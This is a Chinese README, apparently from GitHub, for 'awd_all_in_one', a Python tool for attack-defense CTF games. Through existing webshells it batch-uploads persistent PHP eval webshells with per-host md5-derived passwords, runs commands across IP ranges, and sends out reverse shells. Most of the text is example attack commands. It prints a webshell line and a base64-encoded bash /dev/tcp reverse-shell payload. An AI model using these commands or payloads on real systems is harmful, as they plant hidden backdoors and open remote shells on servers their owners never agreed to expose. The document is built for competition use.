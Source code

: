 # awd_all_in_one

awd_all_in_one 是一个为awd比赛服务的脚本，旨在简化一些繁杂的批量代码编写,他的功能主要是批量上传不死马，并且不死马的密码不一样 md5(ip+key) ，批量执行函数，批量反弹shell，向文件追加内容并修改时间(这个现在还没实现，有时间写)，一共是三个模块 get post shell。前两个是写不死马一句话的，shell是个扩展函数 你可以用它来写一句话，也可以用它来执行系统命令 批量反弹shell 甚至 文件包含等，他只是提供了一个批量传值的功能，有疑问可以去看看 shell的函数。

这个脚本有16个参数需要传递，是不是被吓到了。不过别担心，下面我们就看下这些参数。

-ip 指定目标ip
-ips 指定目标ip段，支持192.168.253.1-3 和192.168.253.0.1,192.168.253.2,192.168.253.3 两种参数传递方式
-port 指定目标ip的端口 可以不传 默认是80
-ports 指定多个端口 支持8080-8089 和 8088，8089两种传参方式。一般是用来测试那些自己搭建的AWD 没有多个ip只能用端口来划分的awd测试
-f 指定文件路径和文件名，这个参数是为了支持直接通过txt文本的读取来传马，txt文件的格式如：http://192.168.1.1/1.php cmd
--dir 已知一句话的路径（此路径是相对url访问来说的) 比如 一句话是 http://192.168.1.1/1.php 那么 --dir 1.php就可以了
--password 已知一句话对应的密码
--dir2 要写入的路径（确保目录有可写入权限否则会报错，此路径是一直一句话路径的相对路径）
-key MD5加密的salt 可指定pass_base 1 ip 2 port 这样密码 也不需要保存 直接 python 生成就ok
--ptl 网站所使用的协议 默认不传参为http
--pass_base 基于哪个来进行MD5 1 表示 ip 2 表示 port 默认是 1
-shell_method shell传递形式 post 或者 get 默认是 post
-shell shell的值
-b64 shell是否是base64传递进来的，简化一些传参的转义工作

上面就是所有的参数了，并不是所有参数都需要传递，但是建议传递所有的参数，下面我们举几个例子来用一下：

比如 我们已知 http://192.168.14.128/upload/bb-1.php 密码 cmd 是POST类型的
那么我们上传不死马需要这样玩儿
python awd_all_in_one.py -ip 192.168.14.128 -port 80 --dir upload/aa-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post

有些参数是默认的，当然绝大多数他们也是默认值那样，所以我们可以简化下
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez
成功写入木马：<?php @eval($_POST['ee1dbe29997d539d4010c37e3ebab6a3']);?>
地址：http://192.168.14.128/upload/test_a.php  密码是由 192.168.14.128geez md5 得来。同理我们可以指定port+salt的MD5值作为密码
我们也可以批量上传
python awd_all_in_one.py -ips 192.168.14.133-134 -port 80 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post

我们也可以通过get 一句话木马 来批量上传 只需要改变 method 值为 get
比如 python awd_all_in_one.py -ips 192.168.14.133-135 -port 80 --dir upload/aa-1.php --dir2 ./a.php --password cmd -key geez --ptl http --pass_base 1 -method get

你也可以通过文件来上传：
python awd_all_in_one.py -f test.txt --dir upload/aa-1.php --dir2 ./abbb.php --password cmd -key geez --ptl http --pass_base 1 -method get
python awd_all_in_one.py -f test.txt --dir upload/bb-1.php --dir2 ./abbbccc.php --password cmd -key geez --ptl http --pass_base 1 -method post

我们还有一个模块是 shell 是用来执行自定义的命令和反弹shell使用的

单个执行
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/aa-1.php --password cmd -method shell -shell_method get -shell "system(whoami);"

批量执行
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --password cmd -method shell -shell_method post -shell "system(whoami);"

反弹shell 管理shell的工具 这里就不提供了，可以用wangyihang写的那个Platypus：

python awd_all_in_one.py -ips 192.168.14.133-135 --dir upload/bb-1.php --password cmd -method shell -shell_method post -b64 1 -shell "c3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTQuMS85OTk5IDA+JjEnIik7"

-b64 1 表示 使用base64 传递 shell值 -shell_method 是一句话密码是GET 还是 POST 的区分

好了 如果你还需要扩展模块 只需要在主函数里面判断 传入的method 然后自己写一个函数进行调用就ok。当然目前这个脚本还是很low

